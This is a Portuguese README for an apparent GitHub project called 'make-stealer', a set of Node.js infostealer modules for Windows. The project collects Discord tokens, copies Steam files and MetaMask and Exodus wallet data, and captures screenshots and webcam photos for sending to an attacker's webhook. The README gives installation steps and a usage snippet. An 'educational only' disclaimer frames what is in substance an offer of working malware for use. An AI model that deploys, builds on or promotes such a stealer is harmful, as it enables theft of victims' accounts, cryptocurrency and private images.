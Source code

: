 # Stealers Modules 

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Node.js](https://img.shields.io/badge/Node.js-16+-green.svg)](https://nodejs.org/)
[![Platform](https://img.shields.io/badge/Platform-Windows-blue.svg)](https://www.microsoft.com/windows)

> **⚠️ DISCLAIMER IMPORTANTE**  
> Este repositório é **APENAS** para fins educacionais e de pesquisa em segurança.  
> O uso deste código para atividades maliciosas é **PROIBIDO** e de responsabilidade exclusiva do usuário.

---

## 📋 Sobre

Diversos módulos para implementação em Stealers. Desenvolvido para fins educacionais em segurança da informação e pentesting.

---

## 🚀 Features

- **Discord**: Coleta tokens e informações de autenticação
- **Steam**: Backup dos arquivos principais da Steam
- **MetaMask & Exodus**: Cópia de dados de carteiras cripto
- **Screenshot**: Captura de tela com envio para webhook
- **Webcam**: Captura de foto da webcam

---

## 📁 Estrutura

```
make-stealer/
├── index.js              # Arquivo principal
├── package.json          # Dependências
├── readme.MD            # Documentação
└── modulos/             # Módulos do sistema
    ├── discord.js       # Coleta tokens Discord
    ├── steam.js         # Backup Steam
    ├── metamask.js      # Backup MetaMask
    ├── exodus.js        # Backup Exodus
    ├── screenshot.js    # Captura de tela
    └── webcam.js        # Captura webcam
```

---

## ⚙️ Requisitos

- **Sistema**: Windows 10/11
- **Node.js**: Versão 16 ou superior
- **NPM**: Gerenciador de pacotes

---

## 🛠️ Instalação

1. **Clone o repositório**:
   ```bash
   git clone https://github.com/npmstealer/make-stealer.git
   cd make-stealer
   ```

2. **Instale as dependências**:
   ```bash
   npm install
   ```

3. **Configure a webhook**:
   - edite o arquivo `index.js`
   - Substitua o 'webhook here' pela sua webhook

---

## 📦 Dependências

- `axios`: Requisições HTTP
- `screenshot-desktop`: Captura de tela
- `form-data`: Upload de arquivos

---

## 🚀 Como Usar

### Uso Básico
```bash
npm start
# ou
node index.js
```

### Uso dos módulos
```javascript
const { discordtokens } = require('./modulos/discord')
const { screenshot } = require('./modulos/screenshot')

discordtokens()

screenshot('print.png', 'webhook here')
```

---

## ⚖️ Responsabilidade Legal

- Este software é fornecido "como está"
- O uso é de responsabilidade exclusiva do usuário
- Respeite sempre as leis locais de privacidade e segurança
- Use apenas em ambientes autorizados e para fins educacionais

---

## 👤 Créditos

- **Desenvolvedor**: npmstealer
- **Discord**: [discord.gg/npm](https://discord.gg/npm)
- **Versão**: 1.0.0

---

## 📞 Suporte

- **Discord**: [discord.gg/npm](https://discord.gg/npm)
- **Issues**: Use o GitHub Issues para bugs

---

> **⚠️ Lembre-se**: Use este software de forma responsável e ética. A segurança da informação deve sempre respeitar a privacidade e os direitos dos usuários.
